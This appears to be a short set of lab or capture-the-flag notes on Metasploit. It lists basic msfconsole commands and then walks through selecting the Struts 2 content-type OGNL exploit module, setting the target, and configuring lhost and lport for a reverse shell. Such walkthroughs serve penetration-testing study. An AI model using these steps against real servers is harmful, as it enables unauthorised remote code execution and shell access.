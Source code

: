 type following command to start metasploit
* msfconsole

command for searching any modules 
* search iis

we can select a module by using this command
* use module_name

once module is selected we can view it's option 
* show options

to list all different payloads for all platforms 
* show playloads

to set payload we use following command 
* set payload payload_name

to run module, we simply execute 
* run

            ::Exploiting Using Metasploit::

   Nmap reveals a web service running on port 80/tcp, identified as Apache Tomcat/Coyote JSP engine 1.1. When we connect to the web server, we are redirected to /showcase.action.

Googling for the terms "apache" and "showcase.action" confirms that the server is probably running "Struts 2".   

run msfconsole 
then > search Struts 2
finde this module on number 6 > multi/http/struts2_content_type_ognl
msf6 > use 6 or multi/http/struts2_content_type_ognl
msf6 > show options
set > rhosts > rport >  targeturi

for reverse shell

set lhost tun0 or local_ip
set lport 44444

